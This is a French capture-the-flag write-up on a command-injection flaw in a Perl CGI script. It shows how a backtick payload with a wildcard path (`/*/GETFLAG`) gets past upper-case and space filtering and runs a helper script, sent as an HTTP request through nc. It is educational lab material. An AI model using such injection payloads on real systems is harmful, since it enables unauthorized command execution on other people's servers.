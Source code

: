 # Niveau 12 : Injection de Commande via Script Perl CGI

Ce document explique la vulnérabilité dans le script `level12.pl` et les étapes suivies pour l'exploiter.

## 1. Explication du Script

La cible est un script Perl CGI (`level12.pl`) écoutant sur `localhost:4646`.

Parties clés du script :

-   Il utilise le module CGI pour obtenir les paramètres `x` et `y` de la requête :
    ```perl
    use CGI qw{param};
    # ... plus tard ...
    n(t(param("x"), param("y")));
    ```
-   La sous-routine `t` traite le paramètre `x` :
    -   Le convertit en majuscules : `$xx =~ tr/a-z/A-Z/;`
    -   Supprime tout après le premier espace : `$xx =~ s/\s.*//;`
    ```perl
    sub t {
      $nn = $_[1]; # param y
      $xx = $_[0]; # param x
      $xx =~ tr/a-z/A-Z/;
      $xx =~ s/\s.*//;
      # ...
    }
    ```
-   Il utilise ensuite la valeur traitée `$xx` directement dans une commande shell exécutée via des backticks (apostrophes inverses) :
    ```perl
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    ```
-   Le script vérifie si une ligne retournée par `egrep`, spécifiquement la partie après le premier deux-points (`:`), correspond au paramètre `y` (`$nn`) en tant qu'expression régulière (regex). Il affiche `..` si ça correspond et `.` sinon.

## 2. Analyse de la Vulnérabilité

La vulnérabilité principale est une **Injection de Commande** dans la ligne :
```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
Le script intègre directement la variable `$xx` contrôlée par l'utilisateur (bien que modifiée) dans une chaîne de commande exécutée par le shell du système via des backticks.

**Défis :**

1.  **Conversion en Majuscules :** `$xx =~ tr/a-z/A-Z/;` empêche l'injection directe de commandes en minuscules (comme `getflag`).
2.  **Suppression des Espaces :** `$xx =~ s/\s.*//;` empêche l'injection de commandes avec des espaces ou des arguments séparés par des espaces.

## 3. Méthode d'Exploitation

La vulnérabilité a été exploitée en contournant les limitations de la conversion en majuscules et de la suppression des espaces pour exécuter la commande `getflag` et rediriger sa sortie vers un fichier lisible.

**Étapes :**

1.  **Créer un Script Auxiliaire :** Un script auxiliaire a été créé à `/tmp/GETFLAG`. Crucialement, ce script contenait *lui-même* la commande et la redirection nécessaires :
    ```bash
    # Commande exécutée dans le shell :
    echo "getflag > /tmp/FLAG" > /tmp/GETFLAG
    chmod +x /tmp/GETFLAG
    ```
    Lorsque `/tmp/GETFLAG` est exécuté, il lance `getflag` et écrit la sortie dans `/tmp/FLAG`.

2.  **Construire la Charge Utile (Payload) :** Le paramètre `x` a été conçu pour exécuter le script auxiliaire en utilisant des backticks et un chemin avec joker (`*`) :
    *   Payload : `` `/*/GETFLAG` ``
    *   Cette charge utile ne contient pas d'espaces, évitant le problème de la suppression des espaces.
    *   Le joker `*` n'est pas affecté par la conversion en majuscules.

3.  **Envoyer la Requête :** La charge utile a été envoyée au script via `nc` (l'encodage URL n'était pas strictement nécessaire ici car les caractères critiques `*`, `/`, `` ` `` passent souvent, mais encoder en `%60%2A%2FGETFLAG%60` fonctionnerait aussi) :
    ```http
    GET /?x=`/*/GETFLAG`&y=a HTTP/1.0
    ```
    (Suivi de deux appuis sur Entrée)

4.  **Trace d'Exécution :**
    *   Le script Perl reçoit `` x=`/*/GETFLAG` ``.
    *   Convertit en majuscules : ``$xx = `/*/GETFLAG` ``.
    *   Supprime les espaces (aucun) : `$xx` reste `` `/*/GETFLAG` ``.
    *   Commande exécutée par Perl : `` `egrep "^`/*/GETFLAG`" /tmp/xd 2>&1` ``.
    *   Le shell exécute les backticks internes : `` `/*/GETFLAG` ``.
    *   Le shell développe `/*/GETFLAG` en `/tmp/GETFLAG`.
    *   Le shell exécute le script `/tmp/GETFLAG`.
    *   `/tmp/GETFLAG` exécute `getflag > /tmp/FLAG`, écrivant le flag dans `/tmp/FLAG`.
    *   Les backticks internes ne produisent aucune sortie standard (à cause de la redirection).
    *   La commande `egrep` externe s'exécute sur un préfixe de motif vide.
    *   Le script Perl affiche `.` (aucune correspondance trouvée basée sur la sortie de `egrep`).

5.  **Récupérer le Flag :** Le flag a été lu depuis le fichier de sortie :
    ```bash
    cat /tmp/FLAG
    ```
    Sortie : `Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr`

Cette méthode a astucieusement utilisé un chemin avec joker dans une substitution de commande pour contourner la validation d'entrée du script et exécuter la commande souhaitée indirectement via le script auxiliaire, redirigeant la sortie avec succès.